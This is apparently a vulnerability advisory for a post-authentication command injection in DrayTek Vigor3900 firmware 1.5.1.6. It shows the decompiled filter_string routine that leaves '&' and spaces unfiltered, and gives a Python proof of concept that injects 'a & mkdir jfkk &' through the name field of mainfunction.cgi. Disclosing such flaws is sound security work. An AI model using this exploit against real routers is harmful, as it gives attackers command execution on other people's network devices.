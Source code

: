 # There is a post-authorization command injection vulnerability in vigor3900

## 1、Basic Information

- Supplier:`DrayTek`
- Product:`vigor3900`
- Firmware version:`1.5.1.6`
- Type:`Command Injection`

## 2、Vulnerability Description

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file. Because the file does not properly consider the filtering of the values of related fields when processing requests, an attacker can construct a malicious HTTP message and execute arbitrary code remotely.

![image-20240817154411363](./pic/image-20240817154411363.png)

As can be seen from the figure above, we can control the value of the `name` field, thereby controlling the execution of the `run_command` function. After obtaining the value of the `name` field, it will be assigned to `value`, and then `value` will be filtered through the `filter_string` function. The code is as follows. It can be found that the function does not filter the `space` and `&` characters, which will lead to command injection.

```c
unsigned __int8 *__fastcall filter_string(unsigned __int8 *result)
{
  unsigned __int8 *i; // r2
  int v2; // r3
  bool v3; // zf
  _BOOL4 v4; // r3

  for ( i = result; i; ++i )
  {
    v2 = *i;
    v3 = v2 == ';';
    if ( v2 != ';' )
      v3 = v2 == '%';
    if ( v3
      || v2 == '`'
      || v2 == '|'
      || v2 == '>'
      || v2 == '\''
      || v2 == '"'
      || v2 == '$'
      || v2 == '\t'
      || v2 == '\n'
      || v2 == '\r' )
    {
      *i = '+';
    }
    else
    {
      v4 = v2 == '&';
      if ( i == (unsigned __int8 *)-1 )
        v4 = 0;
      if ( v4 && i[1] == '&' )
        qmemcpy(i, "++", 2);
      if ( !*i )
        return result;
    }
  }
  return result;
} 
```

## 3、Vulnerability Verification

The constructed POC is as follows, where the relevant `Cookie` value is required.

```python
def send_post_request(ip_address, session_cookie, name_value):
    url = f"http://{ip_address}/cgi-bin/mainfunction.cgi"
    
    headers = {
        "Host": ip_address,
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Cookie": session_cookie,
        "Connection": "close"
    }

    data = {
        "action": "get_cert_content",
        "type": "trustca",
        "name": name_value
    }

    response = requests.post(url, headers=headers, data=data)
    return response.text

ip_address = "10.10.10.2"
session_cookie = "SESSION_ID_VIGOR=7:F657C2D5AE041116E7003E8F7C8B7EFA"
name_value = "a & mkdir jfkk &"

response_text = send_post_request(ip_address, session_cookie, name_value)
print(response_text)
```

As can be seen below, we successfully created a folder named `jfkk`

![image-20240817160108571](./pic/image-20240817160108571.png)

## 4、Reporter

- #### ✨jfkk (jfkk2331997024@gmail.com)



